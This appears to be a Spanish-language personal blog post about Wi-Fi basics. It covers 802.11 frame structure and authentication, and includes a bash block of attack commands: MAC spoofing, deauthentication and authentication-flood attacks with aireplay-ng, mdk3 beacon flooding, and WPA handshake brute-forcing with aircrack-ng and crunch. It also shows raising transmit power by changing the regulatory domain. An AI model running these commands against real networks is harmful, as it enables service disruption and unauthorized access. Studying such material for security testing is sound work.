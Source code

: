 ```yaml
---
title: 'Wi-fi'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1685504739/Screenshot_from_2023-05-30_23-45-31_akzecv.png'
slug: 'wi_fi'
---
```


### Basic

La maxima transmision de poder esta basado en las leyes de cada pais llamado regulatory domain (regdomain) que corresponde al ISO del codigo del pais.

Por defecto el adaptador esta configurado a cero, pero se puede cambiar por la linea de comandos

#### 802.11 MPDU (MAC Protocol DATA Unit) formato

Cada campo esta anotado por la longitud de su byte

<div id="table">

| bytes 2          | 2           | 6       | 6     | 6       | 2                | 6     | 0-2312     | 4         |     |       |
|------------------|-------------|---------|-------|---------|------------------|-------|------------|-----------|-----|-------|
| frame control    | Duration ID | Addr1   | Addr2 | Addr3   | Sequence Control | Addr4 | Frame Body | fcs       |     |       |
| protocol version | type        | subtype | to DS | From DS | More flag        | Retry | Pwr Mgmt   | More Data | wep | order |
| bits 2           | 2           | 4       | 1     | 1       | 1                | 1     | 1          | 1         | 1   | 1     |

</div>

```bash
lsmod
# basics #
iwconfig
#more information
iw list

# Pone el wifi en el canal 11
iwconfig wlan0 channel 11
iw dev wlan0 set channel 11

# dbm #
# incrementar el maximo poder de transmision en el adaptador wifi
iw reg set BO

# 30 dbm corresponde a 1000mW
iw dev wlan0 set txpower fixed 30dbm

# confirmar que funciona
iwconfig wlan0

# test mode (calidad de nuestro setup para el AP "access point") #
aireplay-ng -9 wlan0

```
<img src='https://res.cloudinary.com/djc1umong/image/upload/v1685504598/Screenshot_from_2023-05-30_23-42-53_qued87.png' />

```bash
## Set MONITOR MODE
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
## cambiar nuestro mac para camuflarse
macchanger -h
sudo airmon-ng check
sudo airmon-ng check kill

ifconfig wlan0 down

iwconfig wlan0

ifconfig wlan0 up

# creamos la interfaz mon0 a partir de wlan0
iw dev wlan0 interface add mon0 type monitor

#########################################
sudo ip link set wlp1s0 down
#sudo iw wlp1s0 set monitor none
#;sudo iw wlp1s0 set type managed
;sudo iw wlp1s0 set type monitor
sudo ip link set wlp1s0 up
###########################

ifconfig mon0 up

# monitoreamos toda la red
airodump-ng wlan0

# Monitoreamos la red mac_address por el canal 36 usando la interface wlan0
airodump-ng --bssid mac_address -c 36 wlan0 -w captura.txt

# Enviamos paquetes de deactentication
aireplay-ng -0 15 -a mac_address -c device_address_station wlan0

# ataque deauth
aireplay-ng -0 1 -a mac_address_BSSID -c device_address_station-client_mac wlan0

# ataque de authenticacion para saturar la red
aireplay-ng -1 0 -a mac_address -h device_address_station_random wlan0

# Enviar usuaruois de one
mdk3 wlan0 a -a mac_address

## Ataque 3 de beacons meter usuarios a la red wifi
# usando wlan0 ataque b con el archivo redes.txt -a wpa2 cada segundo x el canal 11
# cat redes.txt
# network1
# network2
# network3

mdk3 wlan0 b -f redes.txt -a -s 1000 -c 11

# Brute force
aircrack-ng -w wordlist cap.file

crunch 8 8 | aircrack-ng -e RosNetwork file.cap -w -

```

**BSSID:** Identifica un AP
**Dirección de destino (DA):** Destino final para recivir el frame
**Dirección fuente (SA):** Fuente original que creo el frame
**Dirección del destinatario (RA):** Destino STA
**Dirección del transmisor (TA):** Transmisor STA

Los *beacons* son fotogramas que transmite periodicamente el AP. Su proposito es anunciar la red WI-FI, contiene información sobre los parametros de la red y capacidades del AP como tasas de rendimiento admitidas

*Probe requests* son enviados por el cliente para determinar la disponibilidad de la red, contiene el nombre SSID y es enviado por todos los canales, un nullbyte puede ser enviado si no quiere buscar una red especifica

*Probe responses* son enviados por el AP una vez que recibe el probe request, son parecidos al beacon pero con información adicional según lo especificado por el cliente que se comunica dentro del prove request correspondiente

Despues de la authenticación una estacion necesita ser asociada por el AP, este es el proposito del *Association Request* frames, contiene información sobre las capacidades STA, velocidades de data transmitida y el SSID de la red a la que desea asociarse

### 3 estados posibles de conexión

1. No autenticado
2. Autenticado pero no asociado
3. Autenticado y asociado

El estandar 802.11 original especifica que hay 2 modos de autenticación diferentes.


- Autenticación abierta
- Autenticación de llave compartida

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031056/Screenshot_from_2023-08-02_22-50-09_yi6gyw.webp" alt="airodump-ng">

esta seccion muestra información sobre los clientes de la red

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031181/Screenshot_from_2023-08-02_22-52-47_mzhdsw.webp" alt="">


[DB para brute-force](https://www.renderlab.net/projects/WPA-tables/)